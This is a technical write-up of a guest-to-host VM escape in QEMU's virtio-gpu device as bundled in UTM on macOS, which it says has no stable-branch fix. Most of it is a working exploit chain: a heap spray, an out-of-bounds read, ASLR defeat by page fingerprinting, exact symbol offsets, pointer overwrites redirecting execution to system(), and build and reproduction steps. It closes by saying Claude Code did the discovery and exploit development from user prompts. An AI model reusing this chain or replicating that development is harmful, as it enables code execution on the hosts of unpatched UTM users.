| **Fix commit (primary)** | [`c035d5ea`](https://github.com/qemu/qemu/commit/c035d5eadf400670593a76778f98f052d7482968) — "virtio-gpu: fix overflow check when allocating 2d image" |
| **Fix commit (cleanup)** | [`2a886bd`](https://github.com/qemu/qemu/commit/2a886bda476531566c673d93f28184bbf7bfd890) — "virtio-gpu: use computed rowstride instead of deriving it from hostmem" |
| **Author** | Marc-Andre Lureau (Red Hat) |
| **Authored** | March 11, 2026 |
| **Merged** | March 17, 2026 (QEMU master) |
| **First release with fix** | QEMU 11.0.0 (April 21, 2026) |
| **Backported to stable** | **No** — not backported to 10.0.x, 10.1.x, or 10.2.x |
| **Affected versions** | QEMU 8.1.0 through 10.2.3 (QEMU <= 8.0.5 not affected — pixman's internal check caught the overflow) |

The fix promotes all intermediate computations (`bpp`, `stride`, `size`) to `uint64_t` and adds an explicit `if (size > UINT32_MAX) return false` check. The function signature changes from returning `uint32_t` to returning `bool` with an output parameter. Both call sites (`virtio_gpu_resource_create_2d` and `virtio_gpu_load`) are updated to reject oversized resources.

The vulnerability was introduced in June 2023 when commit `9462ff4695aa` ("virtio-gpu/win32: allocate shareable 2d resources/images") changed `pixman_image_create_bits()` to receive pre-allocated memory. Prior to that commit, pixman performed its own internal overflow check during allocation — the old `calc_image_hostmem` code even had a comment saying "skip integer overflow check, value will be limited by pixman_image_create_bits." After the change, pixman no longer validates the size, and the overflow in `calc_image_hostmem` becomes exploitable.

Note: This vulnerability was independently discovered through manual source code audit (this work) and by the Zero Day Initiative. The ZDI report led to the upstream fix.

---

## UTM Version Gap

UTM is the most popular macOS QEMU frontend (30K+ GitHub stars). It ships a bundled QEMU build rather than linking against a system or package-managed QEMU.

| | |
|---|---|
| **UTM's QEMU version** | 10.0.2 |
| **Latest QEMU release** | 11.0.0 (April 21, 2026) |
| **Fix available since** | QEMU 11.0.0 |
| **Backported to 10.0.x** | **No** |
| **UTM vulnerable** | **Yes** |

The fix was merged to QEMU master on March 17, 2026 and shipped in QEMU 11.0.0 on April 21, 2026. It was **not backported** to any stable branch (10.0.x, 10.1.x, 10.2.x). UTM ships QEMU 10.0.2 and cannot simply bump to a patched point release — it must either:

1. **Forward-port to QEMU 11.0.0** — a major version jump with significant integration risk
2. **Cherry-pick the fix commits** (`c035d5ea`, `2a886bd`) into their 10.0.2 fork
3. **Disable virtio-gpu-pci** — removes the attack surface but breaks GPU acceleration for guests

This pattern — security-critical fixes landing only in QEMU mainline with no stable backports — means any downstream that tracks a stable branch remains vulnerable until they either cherry-pick or jump to the next major release. Any UTM VM with a virtio-gpu-pci device attached is exploitable.

---

## UTM.app Exploitation (SPICE-Safe Variant)

### Overview

UTM is the most popular macOS QEMU frontend, with 30K+ GitHub stars. It bundles its own QEMU 10.0.2 build and frameworks (including pixman-1.0.framework) inside the application bundle. The same integer overflow vulnerabilities apply, but exploitation is significantly harder because UTM's `QEMULauncher` **unconditionally enables SPICE** (`-spice unix=on,...`), creating a display surface sharing problem that doesn't exist when targeting standalone QEMU.

**Demonstrated result**: A guest VM opens Calculator.app on the macOS host, through the real UTM.app with no modifications, no debug flags, and no host preparation.

| | |
|---|---|
| **Affected software** | UTM 4.x (bundled QEMU 10.0.2 with virtio-gpu-pci) |
| **Tested on** | UTM on macOS 26.4.1 (Tahoe), Apple Silicon (arm64) |
| **Attack surface** | Guest-accessible virtio-gpu PCI device |
| **Impact** | Guest-to-host code execution (VM escape) |
| **ASLR** | Fully bypassed at runtime from the guest |
| **Host modifications** | None required |
| **Self-contained** | No host-side files needed — uses shell globbing |

### The SPICE Problem

UTM's `QEMULauncher` always starts QEMU with `-spice unix=on,...` to support its native display. SPICE and VNC share the same `QemuConsole` and thus the same display surface. SPICE's `qemu_spice_display_refresh` runs on a timer every ~30ms and calls `_platform_memcmp` on the current scanout surface data.

The OOB read primitive works by calling `SET_SCANOUT` with a large x-offset, pointing the display surface past the 256KB buffer into adjacent host memory. When this adjacent memory is **unmapped** (common in framework gaps), SPICE's timer fires and dereferences the unmapped surface pointer, causing a SIGSEGV that kills QEMU.

This is the fundamental challenge: **every OOB scan read that overlaps an unmapped page is a ~7% chance of instant QEMU death** (SPICE timer period vs. read-reset window). With 20+ scan reads, the probability of surviving an unprotected scan is near zero.

### Key Differences from Standalone QEMU Exploit

| Aspect | Standalone QEMU (`exploit.c`) | UTM.app (`exploit_utm.c`) |
|--------|-------------------------------|-------------------------------|
| SPICE | Absent (`-display none`) | Always active (unconditional) |
| pixman | Homebrew dylib (~480KB TEXT) | UTM framework (~2.4MB TEXT) |
| GOT type | `__DATA_CONST` (chained fixups, r/o) | `__DATA __la_symbol_ptr` (lazy binding, r/w) |
| free() location | Non-lazy GOT (r/o) | Lazy symbol ptr (r/w, resolved at first call) |
| sizeofcmds | `0x6B8` | `0x758` (or `0x748` lipo-extracted) |
| Identification | Single Mach-O header scan | 131 pixman + 641 QEMU TEXT page fingerprints |
| Scan strategy | Page-by-page forward | Buffer-first fill + 4MB stride |
| Buffer allocation | `calloc` → `MALLOC_LARGE` | `qemu_memfd_alloc` → mmap among frameworks |
| Buffer placement | Heap spray after buffer | Buffer first, then spray+fill forward |
| Frameworks | Homebrew dylibs (few, scattered) | 20+ UTM-bundled frameworks (dense cluster) |
| Hijack target | pixman `_global_implementation` | pixman `_global_implementation`, or QEMU `la_symbol_ptr[g_free]` if pixman is behind buffer |
| Command | `open /*/*/Calc*` (15 bytes) | `open /*/*/Calc*` (pixman) / `open -a Calculator` (g_free) |

### Solution: Buffer-First Fill Strategy

The SPICE crash only occurs when the OOB read lands on an **unmapped** page. If all forward memory from the exploit buffer is mapped, every scan read is safe — SPICE reads mapped zeros or framework data without crashing.

**Allocation ordering is the key insight.** macOS's large-allocation path (vm_allocate) uses a monotonically increasing hint. Successive allocations go to increasing virtual addresses. By controlling the order of resource creation, we control which memory is filled:

1. **Create exploit buffer FIRST** — gets the lowest available heap address
2. **Create 950 spray resources** (237MB) — fill everything forward, including framework gaps
3. **Create filler resources** until hostmem limit (~18MB more) — fill remaining gaps

All 1000+ resource allocations form a roughly contiguous block starting from the exploit buffer. Framework gaps within this range get filled by spray/filler resources. Every forward OOB read from the buffer lands on either:
- Spray/filler memory (mapped zeros) — safe, SPICE reads zeros
- Framework code/data (mapped) — safe, SPICE reads mapped memory

**Result: zero SPICE crashes across all testing.** The scan completes every run without killing QEMU. On runs where the buffer-to-framework geometry is unfavorable (no frameworks in scan range), the exploit exits gracefully.

### Pixman TEXT Page Fingerprinting

With standalone QEMU, the scan looks for Mach-O headers (`0xFEEDFACF`) by stepping through pages. This works because pixman is small (~480KB) and the scan stride easily hits the header page.

UTM's pixman framework is **2.4MB** (148 pages of TEXT). With a 4MB scan stride, most probes land in the MIDDLE of pixman's TEXT segment, missing the Mach-O header entirely. To solve this, the exploit precomputes fingerprints of every TEXT page:

```
Extract first 8 bytes of each 16KB page in pixman's __TEXT segment
→ 148 pages, 131 unique 8-byte signatures
  (Mach-O header + one common-prologue collision with qemu_sigs dropped)
→ Store sorted by value for O(log n) binary search
```

When a scan probe returns non-zero data, the first 8 bytes are checked against the fingerprint table. A match immediately identifies which page of pixman was hit, giving the exact offset back to pixman's base:

```
pixman_base = probe_offset - (matched_page_index × 16384)
```

This allows pixman identification from ANY page in its TEXT segment, not just the header — a 90% hit rate per probe that lands on pixman.

### UTM pixman Framework Offsets

UTM bundles pixman as a universal (fat) Mach-O framework. The arm64 slice has different offsets than homebrew's thin dylib:

| Symbol | Offset | Section |
|--------|--------|---------|
| Mach-O header | `0x000000` | `__TEXT` |
| `sizeofcmds` | `0x758` / `0x748` | Mach-O header field |
| `_pixman_constructor` | `0x0007E0` | `__TEXT` (unslid vmaddr) |
| `_pixman_image_unref` | `0x231A08` | `__TEXT` |
| `_dummy_composite_rect` (ret gadget) | `0x233718` | `__TEXT` |
| `__mod_init_func[0]` (rebase) | `0x250020` | `__DATA_CONST` |
| `__la_symbol_ptr[free]` | `0x254048` | `__DATA` (r/w, lazy) |
| `_fast_path_cache` TLS descriptor | `0x2540E0` | `__DATA` (r/w) |
| `_global_implementation` | `0x254278` | `__DATA __common` (r/w) |
| End of `__DATA` segment | `0x258000` | — |

### Lazy Binding: A Key Advantage

Unlike homebrew pixman (which uses `LC_DYLD_CHAINED_FIXUPS` and read-only `__DATA_CONST` GOT entries), UTM's framework pixman uses `LC_DYLD_INFO_ONLY` with traditional lazy binding. The `free()` pointer is in `__DATA __la_symbol_ptr` — a **writable** section that is resolved on first call.

Pixman's constructor (`_pixman_choose_implementation`) calls `malloc`/`free` during initialization, so `free()` is guaranteed to be resolved by the time the exploit reads it. This gives us the shared cache slide without needing to read from a read-only GOT.

### Self-Contained Command via Shell Globbing

The `system()` call receives the implementation pointer as its first argument. The command string lives at offset 0 of the fake struct and is limited to **15 bytes** (before the `fast_paths` pointer at offset `0x10`). The string `open -a Calculator` is 18 bytes — too long.

The solution uses shell globbing: `system("open /*/*/Calc*")` — 15 characters. The shell expands `/*/*/Calc*` to `/System/Applications/Calculator.app`. (An earlier glob, `/S*/A*/Ca*`, also matched `Calendar.app`.) No host-side file preparation needed.

### UTM Exploitation Walkthrough

#### Phase 1: Overflow Resource + Forward Fill

```
1. Connect VNC (guest → 10.0.2.2:5900 via SLIRP)
2. Create exploit resource: width=0x40000001, height=65536
   → stride wraps to 4, buffer = 256KB (16 pages)
   → Buffer gets LOW heap address (created before spray)
3. Create 950 spray resources (256×256 BGRA = 256KB each, ~237MB total)
   → Fill free regions forward from buffer, including framework gaps
4. Create filler resources until hostmem limit (~72 more, ~18MB)
   → Fill remaining gaps
   Total mapped forward: ~256MB of contiguous coverage
```

#### Phase 2: SPICE-Safe OOB Scan

```
Scan forward from buffer with 4MB stride (256 pages):
  - Page 48 (+768KB): skip buffer + gap remainder
  - Each probe: set_scanout(OOB) → flush → VNC read → reset_scanout(safe)
  - All reads safe: land on spray zeros or framework data
  - Check each probe for:
    a) Pixman TEXT fingerprint (131 sigs, binary search)
    b) QEMU TEXT fingerprint (641 sigs) + header confirmation
    b) Mach-O header (0xFEEDFACF) with known sizeofcmds
    c) Shared cache pointers (0x180-0x280 range)
  - Stop on: pixman found, QEMU found, or 5+ consecutive zeros after data
```

Typical successful scan output:
```
page 48 (+0.8 MB)... PIXMAN fingerprint (page 17)!
    -> pixman base = +0x7c000
```

#### Phase 3: Address Resolution

```
From pixman base offset:
  1. Read __la_symbol_ptr[free] at +0x254048
     → free() = 0x19015b6b8 (resolved lazy pointer)
  2. Compute shared cache slide = free() - 0x1802E36B8
     → slide = 0xfe78000
  3. Compute system() = 0x1803F4438 + slide
     → system() = 0x19026c438
  4. Read __mod_init_func[0] at +0x250020
     → _pixman_constructor rebased addr → pixman absolute base
  5. Compute pixbuf_addr = pixman_base - pixman_oob_offset
     → Absolute address of exploit buffer
  6. ret_gadget = pixman_base + 0x233718
```

#### Phase 4: Dispatch Hijack

```
Write fake pixman_implementation_t at buffer offset 0:
  0x00: "open /*/*/Calc*\0"    ← command (15 chars + null)
  0x10: &fast_paths             ← pointer to fast_path array at buffer+0x40
  0x40: wildcard fast_path      ← op=0x40, formats=0x50000, func=system()
  0x68: sentinel                ← op=0x3F (PIXMAN_OP_NONE)

OOB write 1: TLS thunk (pixman+0x2540E0) ← ret gadget address
  → Forces TLS cache miss on every composite call

OOB write 2: _global_implementation (pixman+0x254278) ← buffer address
  → Redirects implementation chain to our fake struct
```

#### Phase 5: Trigger

```
SET_SCANOUT(64×64) + RESOURCE_FLUSH + VNC FramebufferUpdateRequest
  → pixman_image_composite32()
    → TLS fast_path_cache lookup (thunk = ret → cache miss)
    → Walk _global_implementation → our fake struct
    → fast_paths[0] wildcard matches any composite
    → func(imp, info) = system("open /*/*/Calc*")
    → shell expands glob → open /System/Applications/Calculator.app
    → Calculator.app opens on host
```

### memfd Layout and the QEMU `g_free` Fallback

UTM 4.7.5's QEMU allocates virtio-gpu pixman buffers via `qemu_pixman_image_new_shareable()` → `qemu_memfd_alloc()` → `mmap(memfd)`, **not** `pixman_image_create_bits(NULL,…)` → `calloc`. Each resource buffer is therefore a 256 KB memfd-backed `mmap` that lands in the **lowest available hole** among the ~20 UTM-bundled frameworks (around `0x1070_00000`), instead of out in `MALLOC_LARGE` (around `0xd_3000_0000`).

This changes the geometry the exploit depends on:

| Region | Typical address (one observed run) | Relative to RES_EXPLOIT |
|---|---|---|
| pixman `__TEXT` | `0x10719c000` (2.4 MB) | **−7 MB** (behind) |
| RES_EXPLOIT (first 256 K memfd) | `0x107880000` | 0 |
| QEMU `__TEXT` | `0x10a5b0000` (12 MB) | +45 MB |
| QEMU `__DATA __la_symbol_ptr` | `0x10be10000` | +69 MB |
| Guest RAM (4 × 128 MB `SM=SHM`) | `0x10c314000` | +75 MB |

dyld randomises the framework load addresses on every launch. pixman is one of the smallest images in the cluster, so on a meaningful fraction of boots it lands at a *lower* address than the first 256 K hole, putting `_global_implementation` and the TLS thunk **behind** the exploit buffer. The OOB write (`dst_offset = r.x * 4`, all `uint32_t`) is forward-only, so the Phase 4 pixman writes are then unreachable.

#### QEMU `__TEXT` Fingerprinting

QEMU's image is a single ~29 MB block (`__TEXT` 12 MB + `__DATA_CONST` 12 MB + `__DATA`/`__LINKEDIT`). It is large enough that a 256 K memfd hole essentially never lands above it, so the forward scan reliably crosses QEMU `__TEXT` regardless of ASLR. The exploit therefore carries a second fingerprint table:

```
Extract first 8 bytes of each 16 KB page in qemu-aarch64-softmmu __TEXT
→ 771 pages, 641 unique non-zero 8-byte signatures
→ Drop 2 signatures that collide with pixman_sigs
→ Sorted for O(log n) binary search (qemu_sig_lookup)
```

With a 4 MB stride, 2–3 probes land inside the 12 MB `__TEXT` on every run. A `qemu_sigs` hit is **confirmed** before use: the candidate base `cand = off − page_idx × 16384` is read back and accepted only if `magic == 0xFEEDFACF && sizeofcmds == QEMU_SIZEOFCMDS (0x1248)`. This guards against false positives from generic-looking signatures (e.g. `0xffffffffffffffff`).

Once `qemu_oob` is confirmed, the existing derive-from-QEMU path runs: read `__got[_pixman_image_unref]` to get `pixman_base`, read `__la_symbol_ptr[_free]` to derive the shared-cache slide and `system()`, read `__mod_init_func[0]` to derive `pixbuf_addr`. If `pixman_base + PIXMAN_GLOBAL_IMP >= pixbuf_addr`, pixman `__DATA` is forward-reachable and the original Phase 3/4/5 chain runs unchanged. Otherwise:

#### Fallback: `__la_symbol_ptr[g_free]` → `system()`

QEMU's `__DATA __la_symbol_ptr` is at `qemu_oob + 0x1860000`, ~70 MB forward of the buffer and well inside the 4 GB OOB-write range.

```
OOB write: la_symbol_ptr[_g_free] (qemu+0x1860868) ← system_addr
  → Every subsequent g_free() stub call jumps to system()
```

The trigger abuses the **short-read error path** in `virtio_gpu_create_mapping_iov` (verified at `0x359054`/`0x359220` in UTM 4.7.5's `qemu-aarch64-softmmu`):

```c
ents = g_malloc(nr_entries * 16);                 // x23
s = iov_to_buf(out_sg, out_num, sizeof(ab), ents, nr_entries * 16);
if (s != nr_entries * 16) {                       // short read
    g_free(ents);                                 // 0x359220 → system(ents)
    return -1;
}
```

The exploit sends `RESOURCE_ATTACH_BACKING` with `nr_entries = (len/16) + 1` but only `len` bytes of entry data, where the entry bytes are the literal command string:

```
cmd_attach_backing_short(SPRAY_RES_START, "open -a Calculator", 19)
  → nr_entries=2, esize=32, iov_to_buf copies 19 bytes
  → ents[0..18] = "open -a Calculator\0", ents[19..31] = uninitialised
  → 19 != 32 → g_free(ents) → system("open -a Calculator")
```

`SPRAY_RES_START` is used because it is an existing resource with no backing attached (the spray loop only calls `RESOURCE_CREATE_2D`, never `ATTACH_BACKING`), so QEMU passes the `res->iov == NULL` precheck and reaches `create_mapping_iov`.

There is no struct-layout constraint on the payload: nothing in `ents` is dereferenced before the `g_free`, so the command can be arbitrarily long (bounded by the 4 KB `data_region` and QEMU's `nr_entries ≤ 16384` cap). This is why the fallback uses `open -a Calculator` directly while the pixman chain is stuck with a 15-byte glob.

**Side effects**: after the la_ptr overwrite, every `g_free` in QEMU (including the `g_free(cmd)` for each virtqueue command and SPICE's per-frame frees) becomes a `system(ptr)` on a heap pointer, which spawns `/bin/sh -c <garbage>` and fails harmlessly. QEMU does not survive long after the trigger, but Calculator is already open.

### UTM Reproduction Steps

#### Prerequisites

- macOS on Apple Silicon (arm64)
- UTM.app installed (any recent version with QEMU backend)
- `aarch64-linux-musl-gcc` cross-compiler
- Alpine Linux aarch64 `vmlinuz-virt` kernel

#### Step 1: Build the Exploit

```bash
cd guest_exploit
aarch64-linux-musl-gcc -static -O2 -o exploit_utm exploit_utm.c
```

#### Step 2: Build the Guest Initramfs

```bash
mkdir -p /tmp/initramfs_mod/{bin,root,dev,proc,sys}
cd /tmp/initramfs_mod

# Install busybox (from Alpine initramfs)
# cp busybox to bin/busybox (aarch64 static binary)

# Install exploit
cp /path/to/guest_exploit/exploit_utm root/exploit_utm

# Create init script
cat > init << 'EOF'
#!/bin/sh
/bin/busybox --install -s
export PATH="/usr/bin:/bin:/usr/sbin:/sbin"
mount -t proc proc /proc
mount -t sysfs sysfs /sys
mount -t devtmpfs devtmpfs /dev
modprobe virtio_net 2>/dev/null
sleep 1
ip link set lo up; ip link set eth0 up
ip addr add 10.0.2.15/24 dev eth0
ip route add default via 10.0.2.2
sleep 2
exec /bin/sh
EOF
chmod +x init

# Pack
find . | cpio -o -H newc | gzip > /tmp/initramfs-exploit.gz
```

#### Step 3: Create UTM VM

1. Open UTM → Create New VM → Emulate → Other
2. Architecture: ARM64 (aarch64), System: virt
3. Memory: 512 MB
4. No disk drive needed
5. After creation, edit VM settings:
   - **Boot**: set kernel to `vmlinuz-virt`, initrd to `initramfs-exploit.gz`
   - **QEMU**: add flags: `-device virtio-gpu-pci -vnc :0 -nographic`
   - **QEMU**: set boot argument: `UTMAPP`
   - **Display**: remove any display devices (the exploit adds its own)
   - **Network**: ensure one virtio-net-pci NIC with emulated (SLIRP) mode
   - **Serial**: add a terminal serial console

#### Step 4: Run

1. Boot the VM in UTM
2. In the serial console shell, run: `/root/exploit_utm`
3. Calculator.app opens on the host within ~30 seconds

If the scan finds only zeros (buffer placed above frameworks), restart the VM and retry. The buffer-first strategy succeeds on most boots; when it doesn't, it exits cleanly without crashing QEMU.

---

## Conversation Prompts

The following are the actual user prompts that drove the project from initial concept to working exploit. All vulnerability discovery and exploit development was performed by Claude Code under user direction.

1. "what version of qemu is UTM built against"

2. "we want to find any vulnerabilities patched between the UTM version and latest which could be used as an escape on UTM?"
   - This led to us reviewing the recent ottersec qemu CVE/exploit to see if it could be adapated.

3. "no we want to adapt it for utm on mac, unless maybe we could audit qemu for a new guest-host escape which specifically would work on mac/osx/utm ? maybe do that first"
   — This prompt initiated the source code audit of QEMU that discovered the vulnerabilities.

4. "which are the strongest candidates for utm guest -> host escape"

5. "can we somehow verify this — Unknown: Does Apple's PVG framework validate virtual_offset < task->len before calling the callback? PVG is closed-source. This is the single critical question."
   — An initial investigation into apple-gfx-pci as an attack surface, which was ultimately abandoned because PVG is closed-source and the device requires a macOS guest.

6. "okay lets verify it using standard qemu first before dealing with utm ?"

7. "can you build an escape PoC that pops 'calc' on the host ?"

8. "figure it out the best way possible. do not modify qemu source. it needs to work from guest only. investigate turning the write to a read"
   — This led to the VNC-based OOB read primitive (set_scanout + VNC framebuffer read).

9. "how does the vnc scanner work ?"

10. "DO NOT MODIFY QEMU." / "no do not patch spice.." / "no .. we can not add patches to the binary .."
    — Repeated constraints: the exploit must work against an unmodified, stock QEMU/UTM binary. No patches, no debug builds, no helper scripts on the host.

11. "instead of system(/tmp/c) or touch /tmp/c why dont you just system(calc.app) or w/e"
    — This led to the shell globbing solution: `open /S*/A*/Ca*` (14 chars), making the exploit self-contained.

12. "make a new version of the exploit for the UTMApp dont modify the existing utm exploit"
    — This initiated the SPICE-safe UTM.app variant (`exploit_utm.c`).

13. "try ./setup_utm_vm.sh run but it failed" (followed by pasted serial output ending in `[!] Neither pixman nor QEMU found (40 reads, 0 Mach-Os)`)
    — Diagnosis via `vmmap` of the live QEMULauncher process showed UTM's memfd allocator placing the exploit buffer above pixman; led to the QEMU `__TEXT` fingerprint table.

14. "I want you to preserve the current chain, then try the new one. I want to come back to the current chain later."
    — Constraint that produced the layered design: pixman fingerprint → original chain; QEMU fingerprint + reachable pixman `__DATA` → original chain; QEMU fingerprint + pixman behind buffer → `g_free` fallback.

15. "Is there any way to pop calc directly, instead of 'open /S*/A*/Ca*'"
    — Led to making `cmd_attach_backing_short` length-agnostic so the `g_free` chain can run `open -a Calculator` without the 15-byte cap.

16. "Can you fix the setup_macos_vm.sh to pop Calc only?"
    — Tightened the pixman-chain glob from `/S*/A*/Ca*` (matched Calendar.app too) to `/*/*/Calc*`.
